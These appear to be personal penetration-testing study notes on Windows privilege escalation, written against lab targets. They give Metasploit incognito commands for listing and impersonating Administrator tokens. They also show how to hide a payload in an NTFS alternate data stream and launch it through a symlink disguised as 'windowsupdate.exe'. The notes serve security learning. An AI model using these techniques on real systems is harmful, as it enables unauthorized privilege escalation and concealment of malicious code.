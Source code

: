 Windows Priviledges
(whoami /privs)
Following are required ( just 1 but mainly SeImpersonatePriv) for impersonation attack :
- SeAssignPrimaryToken: Allows user to impersonate tokens
- SeCreateToken: Allows user to create arbitrary token with admin privs
- SeImpersonatePriviledge: This allows user to create a process under security context of another user typically with admin privs

Tools:
Incognito module in MSF
--> dispalys lists of tokens available for impersonation

Demo:
- Same rejetto file sytem vuln as before

```msfconsole
search rejetto
.......

#on the compromised session
load incognito

#list all available tokens (If none then must use a potato attack, JuicypotatoNG etc)
list_tokens -u

#choose the highest privs token
impersonate_token "ATTACKDEFENCE\Administrator"

```
Note:
tokens might not be listed if user is not logged in etc. Then need use JuicyPotato watever (see HTB Flight Hard)


## Alternate Datastreams vulnerability 
--> for windows priv escalation
--> it is a NTFS (New Tech File System) file attribute designed to be compatible with MacOS HFS(Hierachical File System)

- NTFS drives have 2 fork/streams:
	- Data stream
	- Resource stream (metadata stored here)

--> ADS can be used to hide malicious code in the resource stream (simple evasion technique)
Examples:
```powershell
#create a file.txt with the hidden secret.txt and edit secret, use this to access the Resource stream also
notepad afile.txt:secret.txt

#SECRET.txt cannot be seen anywhere in the dir 
notepad afile.txt
#^^^^ only shows the afile.txt and not the secret.txt


#writes the payload as winpeas.txt into the windowslog.txt file
type payload.exe > windowslog.txt:winpeas.txt

#using the start command probly wont work
start windowslog.txt:winpeas.txt


#create a symbolic link to execute the resource stream in system32 using admin (??)
mklink windowsupdate.exe C:\Temp\Windowslog.txt:winpeas.exe

#now when u type windowsupdate it run the winpeas.exe script (via the symlink)
```